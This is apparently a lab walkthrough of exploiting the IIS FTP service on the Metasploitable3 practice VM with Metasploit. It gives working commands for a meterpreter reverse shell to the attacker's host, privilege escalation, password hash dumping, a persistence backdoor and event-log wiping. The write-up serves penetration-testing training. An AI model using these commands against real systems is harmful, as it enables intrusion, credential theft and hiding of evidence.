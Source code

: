 # Metasploit Exploitation

This document outlines the process of exploiting the IIS FTP service on Metasploitable3 using the Metasploit Framework.

## Exploitation Steps

### 1. Starting Metasploit Framework

Started the Metasploit Console:

```bash
msfconsole
```

![attacker 1](./screenshots/attacker-1.png)

### 2. Identifying Appropriate Exploit

Identified the appropriate exploit:

```bash
use exploit/windows/ftp/ms09_053_ftpd_nlst
```

![attacker 2](./screenshots/attacker-2.png)

### 3. Configuring the Exploit

Examined required options:

```bash
show options
```

![attacker 3](./screenshots/attacker-3.png)

Set the required parameters:

```bash
set RHOSTS 192.168.1.X  # Metasploitable3 IP
set RPORT 21
```

![attacker 4](./screenshots/attacker-4.png)

### 4. Selecting and Configuring Payload

Set the payload:

```bash
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.1.Y  # Kali Linux IP
set LPORT 4444
```

![attacker 5](./screenshots/attacker-5.png)

### 5. Executing the Exploit

Launched the exploit:

```bash
exploit
```

[Screenshot: metasploit_execute_exploit.png]

### 6. Post-Exploitation

After successful exploitation, a Meterpreter session was established.

Gathered system information:

```bash
sysinfo
```

[Screenshot: meterpreter_sysinfo.png]

Listed running processes:

```bash
ps
```

[Screenshot: meterpreter_processes.png]

Escalated privileges:

```bash
getsystem
```

[Screenshot: meterpreter_privileges.png]

### 7. Evidence of Compromise

Obtained user credentials:

```bash
hashdump
```

[Screenshot: meterpreter_hashdump.png]

Accessed the file system:

```bash
cd C:\\
ls
```

[Screenshot: meterpreter_filesystem.png]

### 8. Establishing Persistence (Optional)

Created a backdoor service:

```bash
run persistence -X -i 30 -p 4433 -r 192.168.1.Y
```

[Screenshot: meterpreter_persistence.png]

### 9. Clean-up

Removed evidence of intrusion:

```bash
clearev
```

[Screenshot: meterpreter_cleanup.png]

Terminated the session:

```bash
exit
```

[Screenshot: meterpreter_exit.png]
